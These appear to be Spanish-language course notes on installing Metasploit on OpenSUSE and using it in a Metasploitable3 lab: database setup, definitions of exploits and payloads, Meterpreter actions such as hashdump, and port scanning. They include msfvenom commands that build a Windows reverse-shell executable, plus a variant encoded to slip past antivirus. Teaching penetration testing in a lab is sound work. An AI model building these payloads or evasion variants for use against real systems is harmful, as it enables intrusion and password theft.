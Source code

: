 
# Metasploit

Vamos a usar MV con SO OpenSUSE.

# 1. Instalación

## 1.1 La base de datos

* Instalar `postgresql` y `postgresql-server`
* `systemctml start postgresql`

> Para tener la base de datos necesitamos dos herramientas:
> * postgresql como gestor de bases de datos
> * “msfdb” que es la base de datos propia de metasploit
>
> Hay que ejecutar los servicios de ambas bases de datos antes de poder ejecutar Metasploit Framework. Así se podrán guardar los datos que generamos para ejecutar la auditoria en otro momento.

## 1.2 La aplicación

* Descargar paquete rpm de https://rpm.metasploit.com.
* `sudo rpm -i metasploit-framework-XXX.x86_64.rpm`
* `msfdb init`, crear el schema de la BBDD para MS.
    * `msfdb`, para ver todas las opciones disponibles.
* `msfconsole`, iniciar MS.
* `db_status`, para comprobar que BBDD está OK.

```
david@camaleon> msfconsole

 ** Welcome to Metasploit Framework Initial Setup **
    Please answer a few questions to get started.

Would you like to use and setup a new database (recommended)?
Please answer yes or no.
Would you like to use and setup a new database (recommended)? yes
Creating database at /home/david/.msf4/db
Starting database at /home/david/.msf4/db...success
Creating database users
Creating initial database schema

 ** Metasploit Framework Initial Setup Complete **

       =[ metasploit v4.17.34-dev-                        ]
+ -- --=[ 1845 exploits - 1045 auxiliary - 320 post       ]
+ -- --=[ 541 payloads - 44 encoders - 10 nops            ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

msf > db_status
[*] postgresql connected to msf
msf > exit
```

> Resumen: Para iniciar MSF
> * `sudo systemctl start postgresql`
> * `msfdb init`
> * `msfconsole`

---

# 2. TEORÍA: Definiciones

* `msf> help`, ver los comandos de Metasploit

## 2.1 Los exploits

Un exploit es un fallo el cual se puede aprovechar para diferentes fines: como el control del sistema, robo de información, etc.

* `show exploits`, nos muestra todos los exploits.

> La base de datos de exploits se actualiza contínuamente con las nuevas vulnerabilidades que se van detectando.

## 2.2 Payloads

Los payloads son "bloques de código" que se cargan y ejecutan gracias a las vulnerabilidades. Con ellas podemos conseguir:
* la obtención de una Shell y tomar el control del sistema afectado o
* provocar un desbordamiento o saturación del sistema.

* `show payloads`, nos muestra todos los payloads.

Hay diferentes tipos de Payloads, según el sistema operativo o los servicios instalados:
* **Meterpreter** o Meta-Interpreter
    * Payload avanzado y multifacético que opera mediante inyección dll.
    * Reside completamente en la memoria del host remoto y no deja rastros en el disco duro, por lo que es muy difícil
    de detectar con técnicas forenses convencionales.
* **PassiveX**
    * Payload que ayudar a eludir los firewalls de salida restrictivos. Lo hace mediante el uso de un control ActiveX para crear una instancia oculta de Internet Explorer. Usando el nuevo control ActiveX, se comunica con el atacante a través de
    solicitudes y respuestas HTTP.
* **IPv6**
    * Diseñados para funcionar en redes que use el protocolo IPv6.

## 2.3 Encoders

Encargado de cifrar exploits, payload, etc.

* `search encoders`

---

# 3. TEORÍA: Generando Payloads

Con la herramienta `msfvenom` podemos generar nuestros propios Payloads para un objetivo específico. Además también podemos
* Exportar la salida a varios formatos ejecutables
* Cifrarlo con cualquiera de los "encoder".
* Y el fichero generado es portable e  independiente de Metasploit.


## 3.1 Ejemplo: shell inversa

```
msf > msfvenom
[*] exec: msfvenom

Usage: /opt/metasploit-framework/bin/../embedded/framework/msfvenom [options] <var=val>
Example: /opt/metasploit-framework/bin/../embedded/framework/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe
...

msf > msfvenom -p windows/meterpreter/reverse_tcp
               LHOST=127.0.0.1
               LPORT=4444
               -f exe
               > ejemplo1.exe
```

| Parámetro | Descripción | Ejemplo |
| --------- | ----------- | ------- |
| -p        | Payload     | Para sistemas Windows |
| LHOST     | Nuestra IP local | 127.0.0.1 |
| LPORT     | Nuestro puerto local | 4444 |
| -f        | Formato de salida | Ejecutable shell.exe 32bits |
| -e        | Encoder | N/A |
| >, -o     | Fichero de salida | ejemplo1.exe |

Cuando se ejecute este Payload tendremos una shell de Meterpreter reversa. Es decir, él se conectaría a nosotros y esta iría por el protocolo TCP.

## 3.2 Ejemplo: esconderse del antivirus

```
msfvenom -p windows/meterpreter/reverse_tcp
         LHOST=127.0.0.1
         LPORT=4444
         -f exe
         -e x86/shikata_ga_nai
         > ejemplo2.exe
```

* Este ejemplo es similar al anterior pero nuestro Payload esta cifrado por el encoder "shikata_ga_nai" para protegerse, por ejemplo, de los antivirus.

---

# 4. TEORÍA: Meterpreter

> Se necesita tener un equipo infectado para poder ver esta Shell

Meterpreter es un Payload propio de Metasploit Framework que se ejecuta después del proceso de explotación de una vulnerabilidad en un sistema operativo.
* Es el diminutivo para meta-interprete.
* Se ejecuta en memoria es decir a bajo nivel evitando así tener problemas con algún tipo de protección como los Antivirus.
* Es una shell con gran cantidad de opciones.
* Una vez obtenida esta conexión mediante Meterpreter podremos ejecutar diferentes acciones en los sistemas comprometidos algunas acciones son:

| Acción  | Descripción |
| ------- | ----------- |
| execute | posibilidad de ejecutar archivos |
| sysinfo | obtenemos información del sistema |
| screenshot | captura de escritorio remoto |
| hashdump | obtención de contraseñas en formato Hash |

---

# 10. Recopilación de información

Podemos usar los escáneres que nos ofrece MSF o nmap.
* `msfconsole`
* `search portscan`, nos muestra los scanners que vienen con MSF.
* Ejemplo:
    * `use auxiliary/scanner/portscan/tcp`
    * `show options`
    * `set RHOSTS 192.168.1.1/24` (ó 192.168.1.2-255)
    * `run`

Necesitamos unas MV's vulnerables
* Enlace de interés: [Metasploitable3](https://github.com/rapid7/metasploitable3)
* Creamos las MV's con Vagrant.

```
sudo zypper in vagrant
mkdir metasploitable3-workspace
cd metasploitable3-workspace
curl -O https://raw.githubusercontent.com/rapid7/metasploitable3/master/Vagrantfile && vagrant up
```
